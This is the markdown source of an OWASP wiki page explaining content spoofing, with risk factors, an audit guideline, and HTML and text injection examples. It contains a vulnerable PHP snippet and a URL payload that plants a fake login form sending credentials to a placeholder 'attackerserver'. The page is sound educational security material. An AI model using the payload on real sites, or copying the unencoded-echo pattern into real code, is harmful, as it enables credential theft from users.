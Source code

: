 ```yaml
---
layout: col-sidebar
title: Content Spoofing
author: Andrew Smith
contributors: Jmanico, Wichers, D0ubl3 h3lix, Rishu Ranjan, ADubhlaoich
permalink: /attacks/Content_Spoofing
tags: attack, Content Spoofing

---
```


{% include writers.html %}

## Description

Content spoofing, also referred to as _content injection_, "arbitrary
text injection" or _virtual defacement_, is an attack targeting a user
made possible by an injection vulnerability in a web application. When
an application does not properly handle user-supplied data, an attacker
can supply content to a web application, typically via a parameter
value, that is reflected back to the user. This presents the user with a
modified page under the context of the trusted domain.
This attack is typically used as, or in conjunction with, social
engineering because the attack is exploiting a code-based vulnerability
and a user's trust. As a side note, this attack is widely misunderstood
as a kind of bug that brings no impact.

> Attack Type: Client-Side

## Risk Factors

Risk factors depend on the business type of the application. If the
application business brand is well known and has major competitors, this
issue can be abused by malicious competitors/disgruntled
employees/unsatisfied customers to trigger mass distributions of false
messages to unsuspecting customers. Another factor that heightens the
risk is by doing SEO injection in a way that search engines crawl and
index crafted URLs with falsified messages.

By doing so, customers could be forced to switch to competitor's
products. This could lead to loss of monetary value until rectification
is properly done by the victim business. For public traded companies,
its shares will be falling down, leading to uncontrolled loss of
millions.

![Fake text](../assets/images/Fake-text.png)

## Attack Scenario

An attacker compromised social accounts which have thousands of
followers and distribute misleading Content Spoofing payload via
Twitter/Facebook/Instagram/ similar popular channel. This will lead
media to assume news is correct and create headline stories.

## Audit Guideline

Text injection can be easily found if:

1. User input via parameter or directly in the URL is reflected in the page response
2. Content-Type: text/plain
3. Application is giving default error pages

## Applicable Industries

- A business entity selling one type of product as a major business function

For example, Taxi hailing business, Online shopping business, Online service business

- A business entity relying on the brand name

For example, Cosmetic brand, Airline brand

## [Threat Agents](Threat_Agents "wikilink")

- Malicious competitors
- Disgruntled employees
- Unsatisfied customers
- Scammers

## Content Spoofing vs. Cross-site Scripting

Content spoofing is an attack that is closely related to [Cross-site Scripting (XSS)](/xss). While XSS
uses `<script>` and other techniques to run JavaScript, content spoofing uses other techniques to modify the page for malicious reasons.

Even if XSS mitigation techniques are used within the web application,
such as proper output encoding, the application can still be vulnerable
to text based content spoofing attacks.

## Examples

### Hypertext Markup Language (HTML) Injection

A possible attack scenario is demonstrated below. For this scenario,
lets assumes no output encoding is being implemented:

1. Attacker discovers injection vulnerability and decides to spoof a login form
2. Attacker crafts malicious link, including their injected HTML content, and sends it to a user via email
3. The user visits the page due to the page being located within a trusted domain
4. The attacker's injected HTML is rendered and presented to the user asking for a username and password
5. The user enters a username and password, which are both sent to the attackers server

- A simple PHP page containing an injection vulnerability via the `name` parameter:

```php
<?php
    $name = $_REQUEST ['name'];
?>
<html>
    <h1>Welcome to the Internet!</h1>
    <br>
    <body>
            Hello, <?php echo $name; ?>!
        <p>We are so glad you are here!</p>
    </body>
</html>
```

The page functionality can be tested by making the following GET request
to the page: `http://127.0.0.1/vulnerable.php?name=test`

By requesting the link below, the page renders the injected HTML,
presents a login form, and comments out the rest of the page after the
injection point. Once a user enters their username and password, the
values are sent to a page named `login.php` on the attacker's server via
POST.

```
http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST"
action="http://attackerserver/login.php">Username: <input type="text" name="username" /><br />Password: <input type="password"
name="password" /><br /><input type="submit" value="Login" /></form><!--
```

### Text Injection

Another example of a content spoofing attack would be to present false
information to a user via text manipulation. An attack scenario is
demonstrated below. For this scenario, lets assume proper output
encoding HAS been implemented and XSS is not possible:

1. An attacker identifies a web application that gives recommendations to its users on whether they should buy or sell a particular stock
2. The attacker identifies a vulnerable parameter
3. The attacker crafts a malicious link by slightly modifying a valid request
4. The link containing the modified request is sent to a user and they clicks the link
5. A valid webpage is created using the attackers malicious recommendation and the user believes the recommendation was from the stock website

**Valid Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Recommend+You+Buy+Now`

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Really+Recommend+You+Sell+This+Stock+Now`

Other example:

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=Our+site+has+experienced+major+hacking+incident.Please+use+our+competitor+site+http://www.competitor.com+until+we+further+announced+for+update.`

## Related [Controls](https://owasp.org/www-community/controls/)

- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## References

- [CAPEC - 148](http://capec.mitre.org/data/definitions/148.html)
- [WASC - Content Spoofing](http://projects.webappsec.org/w/page/13246917/Content%20Spoofing)
- [Content Injection Attack](http://itlaw.wikia.com/wiki/Content_injection_attack)
- [CERT Advisory on Malicious HTML Tags](http://www.cert.org/advisories/CA-2000-02.html)
- OWASP's [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [HTML Code Injection and Cross-site Scripting](http://www.technicalinfo.net/papers/CSS.html)
- [Case studies (Spotify, LinkedIn, ..etc)](https://twitter.com/ncweaver/status/974802236567007232?s=12)

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
